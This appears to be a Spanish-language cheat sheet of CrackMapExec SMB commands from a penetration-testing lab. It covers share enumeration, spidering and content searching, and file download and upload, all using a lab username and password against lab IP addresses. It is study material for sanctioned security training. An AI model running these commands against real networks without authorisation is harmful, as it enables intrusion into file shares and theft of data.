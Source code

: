 # Enumeración 

## Enumerar si un user tiene accesos a carpetas compartidas

    crackmapexec smb 10.129.203.121 -u grace -p Inlanefreight01! --shares


## Listar todos los archivos dentro de una carpeta

    crackmapexec smb 10.129.204.177 -u grace -p Inlanefreight01! --spider <carpeta> --regex .

## Listar archivos con una extensión dentro de una carpeta


    crackmapexec smb 10.129.203.121 -u grace -p Inlanefreight01! --spider <carpeta> --pattern <extensión>

## Listar los archivos de una carpeta que tengan una palabra en su contenido

    crackmapexec smb 10.129.204.177 -u grace -p Inlanefreight01! --spider <carpeta> --content --regex <palabra>


# Gestión de archivos

## Descargar un archivo

    crackmapexec smb 10.129.203.121 -u grace -p Inlanefreight01! --share <carpeta> --get-file <file_smb> <file_final>

## Subir un archivo

    crackmapexec smb 10.129.203.121 -u grace -p Inlanefreight01! --share <share> --put-file <path_to_file> <file_final>

